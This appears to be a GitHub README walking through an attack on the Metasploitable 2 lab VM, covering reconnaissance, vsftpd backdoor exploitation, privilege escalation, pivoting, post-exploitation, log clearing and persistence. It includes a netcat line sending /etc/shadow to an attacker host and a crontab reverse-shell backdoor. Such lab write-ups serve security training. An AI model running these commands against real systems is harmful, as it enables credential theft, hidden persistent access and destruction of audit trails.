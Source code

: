 # Metasploitable 2

This document shows an hacking approach for Metasploitable 2, involving multiple phases such as reconnaissance, manual exploitation, privilege escalation, and post-exploitation.

## 1. Reconnaissance (Information Gathering)

### Active and Passive Scanning:

Use `nmap` to identify open ports, services, and OS details.

```
nmap -A -sV <target IP>
```

### Service Enumeration:

#### Port Scan Results

| Port     | State | Service     | Version                                             |
| -------- | ----- | ----------- | --------------------------------------------------- |
| 21/tcp   | open  | ftp         | vsftpd 2.3.4                                        |
| 22/tcp   | open  | ssh         | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)        |
| 23/tcp   | open  | telnet      | Linux telnetd                                       |
| 25/tcp   | open  | smtp        | Postfix smtpd                                       |
| 53/tcp   | open  | domain      | ISC BIND 9.4.2                                      |
| 80/tcp   | open  | http        | Apache httpd 2.2.8 ((Ubuntu) DAV/2)                 |
| 111/tcp  | open  | rpcbind     | 2 (RPC #100000)                                     |
| 139/tcp  | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)         |
| 445/tcp  | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)         |
| 512/tcp  | open  | exec        | netkit-rsh rexecd                                   |
| 513/tcp  | open  | login       |                                                     |
| 514/tcp  | open  | shell       | Netkit rshd                                         |
| 1099/tcp | open  | java-rmi    | GNU Classpath grmiregistry                          |
| 1524/tcp | open  | bindshell   | Metasploitable root shell                           |
| 2049/tcp | open  | nfs         | 2-4 (RPC #100003)                                   |
| 2121/tcp | open  | ftp         | ProFTPD 1.3.1                                       |
| 3306/tcp | open  | mysql       | MySQL 5.0.51a-3ubuntu5                              |
| 3632/tcp | open  | distccd     | distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))    |
| 5432/tcp | open  | postgresql  | PostgreSQL DB 8.3.0 - 8.3.7                         |
| 5900/tcp | open  | vnc         | VNC (protocol 3.3)                                  |
| 6000/tcp | open  | X11         | (access denied)                                     |
| 6667/tcp | open  | irc         | UnrealIRCd (Admin email admin@Metasploitable.LAN)   |
| 6697/tcp | open  | irc         | UnrealIRCd (Admin email admin@Metasploitable.LAN)   |
| 8009/tcp | open  | ajp13       | Apache Jserv (Protocol v1.3)                        |
| 8180/tcp | open  | http        | Apache Tomcat/Coyote JSP engine 1.1                 |
| 8787/tcp | open  | drb         | Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb) |

#### Service Info:

- **Host**: metasploitable.localdomain
- **OSs**: Unix, Linux
- **CPE**: cpe:/o:linux:linux_kernel

## 2. Vulnerability Assessment

For an exploit we used different sources in the internet.

For this example I attached the exploit in the exploit directory.

Normally you can search through the hacking db or similar like

- https://www.exploit-db.com/
- https://www.exploit-db.com/google-hacking-database/

## 3. Exploitation (Manual and Customized)

### vsftpd 2.3.4 Backdoor:

As a listener we use NetCat

nc -vnlp 4444

As the listener is active we execute the exploit and open the reverse shell.

## 4. Privilege Escalation

Once a low-privilege shell is obtained, escalate privileges.

### Kernel Exploits:

Look for kernel vulnerabilities like **dirty cow** or `udev` exploits.

### Search for SUID Binaries:

```
find / -perm -u=s -type f 2>/dev/null
```

### Misconfigurations:

Check for misconfigured services (e.g., NFS, sudo permissions).

## 5. Pivoting and Lateral Movement

After gaining initial access, pivot within the network using SSH pivoting or port forwarding.

### SSH Pivoting Example:

```
ssh -L <local_port>:<target_IP>:<target_service_port> <user>@<compromised_host>
```

### Metasploit Route Setup (Post-Exploitation):

```
run autoroute -s <target IP>
```

## 6. Post-Exploitation

### Dump Passwords:

Use tools like `hashdump` or `mimikatz` to retrieve stored passwords or hashes.

### Gather Sensitive Data:

Retrieve SSH keys, database files, and system credentials.

### Data Exfiltration Using Netcat:

```
nc -lvp 4444 > file.txt
cat /etc/shadow | nc <attacker IP> 4444
```

## 7. Covering Tracks

Securely delete sensitive files and logs to remove traces of the attack.

### Clear Logs:

- `/var/log/auth.log`
- `.bash_history`

Use `shred` or `dd` to securely delete files.

## 8. Persistence

To maintain access, plant a backdoor or create a new account.

### Add a Cron Job for Backdoor:

```
echo "_/5 _ \* \* \* /bin/bash -i >& /dev/tcp/<attacker IP>/4444 0>&1" >> /etc/crontab
```

## Conclusion

This methodology goes beyond simple Metasploit usage by manually exploiting vulnerabilities, escalating privileges, pivoting through networks, and ensuring persistence and stealth. Follow these steps to simulate a more complex attack on Metasploitable 2.
